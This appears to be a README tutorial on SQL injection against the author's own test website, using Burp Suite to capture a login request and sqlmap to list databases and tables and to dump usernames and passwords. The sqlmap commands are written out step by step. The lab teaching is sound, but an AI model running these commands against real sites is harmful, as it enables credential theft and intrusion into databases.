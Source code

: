 ### 1.SQL-INJECTION USING SQLMAP TOOL

Using SQLMAP tool and Burp suite we are going to attack and retreat data from our created website(http://rafi.host/index.php)


Check for SQL Vulnerablity in targeted website if yes then proceed with following process use simple payloads to make sure site is vulnerable.

#### Step-1

Open Browser and take your targeted website and give some random username and password and wait to hit login


![image](/screenshots/1.png)

#### Step-2
 when i click the submit button just i did capture the requst with Burpsuit feature.

#### Step-3
 After capture the request, just save the result into a test file using right click on request you will see save item option save with a random name.

#### step-4 
Now open terminal tpye ls to see your test file saved or not if it save now you are ready to do SQLI.

#### Step-5
Now can run the SQlmap tool by using this command.

![image](/screenshots/2.png)

command:-
***
sqlmap -r fakebook http://rafi.host/index.php --dbs  
***
 #### Note: 
 In command fakebook is my saved file using burp and the URL that our target URL --dbs means databases.


 you want to know how to use sqlmap u can just type -h for help it show more commands and its uses 

 #### Step-6
  First observe carefully you will get so many requests and finally you will get Databases list,which is stored in target website.

![image](/screenshots/5.png)

#####Now we got database list:

 1.information_schema
 2.user 


#### Step-7 
Now you can collect the tables list which is stored in databases by using this command.

command:- 
***
 sqlmap -r fakebook http://rafi.host/index.php -D user --tables 
 ***

#### Note: 
In command user means we are asking the tool to fetch tables from that database.

Wow you got tables,now 

 1.user
 2.users

![image](/screenshots/9.png)

#### Step-8 
Now you need to find the columns for that tables i will select users table.

command:-
***
   sqlmap -r fakebook http://rafi.host/index.php -D user -T users ---columns
   ***

   #### Note: 
    Users means in tables i have slected that to see its columns you can use any one of it.

![image](/screenshots/4.png) 
 
 #### Step-9 
 Now we get the list of columns, if you want to read the columns, use this command.

 command:-
 ***
sqlmap -r fakebook http://rafi.host/index.php -D user -T users -C id,password,username --dump
***

 ![image](/screenshots/6.png)

 Now you can see all ids,passwords,usernames using those you can login in our target page you cracked it sucessfully BOOM!